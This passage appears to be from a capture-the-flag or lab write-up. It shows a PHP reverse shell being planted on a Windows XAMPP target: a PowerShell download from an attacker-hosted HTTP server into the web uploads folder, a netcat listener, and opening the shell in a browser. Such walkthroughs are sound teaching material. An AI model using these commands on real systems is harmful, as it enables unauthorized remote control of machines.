 So I uploaded a php revshell to the same directory
I used [pentestmonkey's php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), downloaded it to my machine, changed the IP and Port and started a python http server again

On local machine in the php-reverse-shell.php directory:
``` bash
$ python3 -m http.server 8000
```

On target machine:
``` cmd
cmd /c powershell Invoke-WebRequest -Uri http://<AttackerIP>:8000/php-reverse-shell.php -OutFile C:\xampp\htdocs\uploads\shell.php
```

We now have the shell.php file in the target machine uploads directory
![](Visual/shelluploads.png)


Now we setup a listener on the port we have in our reverse shell
``` bash
$ nc -lvnp 1337
```

And we open the shell in our browser:
![](Visual/shellurl.png)

